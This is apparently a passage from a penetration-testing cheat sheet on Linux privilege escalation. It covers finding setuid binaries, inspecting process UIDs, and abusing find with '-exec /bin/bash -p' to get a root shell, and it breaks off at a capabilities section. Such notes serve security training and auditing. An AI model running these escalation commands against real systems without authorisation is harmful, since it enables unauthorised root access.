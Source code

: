### Setuid Binaries and Capabilities

#### Setuid Binaries

**Setuid** (Set User ID) binaries are executables that run with the privileges of the file owner, which is often root. Exploiting these binaries can grant elevated access if the binary is misconfigured or vulnerable.

1.  **Find Setuid Binaries:**

```bash
find / -perm -4000 -type f 2>/dev/null
```

2.  **Inspect Permissions and Owners:**

```bash
ls -l $(find / -perm -4000 -type f 2>/dev/null)
```

3.  **Check for Vulnerabilities:**

-   Review the setuid binaries for known vulnerabilities.
-   Check if they can be exploited by running as a different user.
-   Utilize tools like [GTFOBins](https://gtfobins.github.io/) to find specific exploitation techniques for binaries.

#### Exploiting Setuid Binaries

1.  **Finding the Process ID (PID) of a Running Binary:**

```bash
ps u -C [binary_name]
```

2.  **Inspect Credentials of a Running Process:**

```bash
cat /proc/[PID]/status | grep Uid
```

3.  **Getting a Reverse Shell Using `find`:**

```bash
find [directory] -exec [path_to_shell] \;
```

4.  **Exploit:**

```bash
# Replace [vulnerable_binary] with the name of the binary you are targeting.
find / -name [vulnerable_binary] -exec /bin/bash -p \;
```

#### Capabilities

Linux capabilities allow for finer-grained control over the privileges a process has, which can sometimes be exploited to escalate privileges.

1.  **Enumerate Capabilities:**
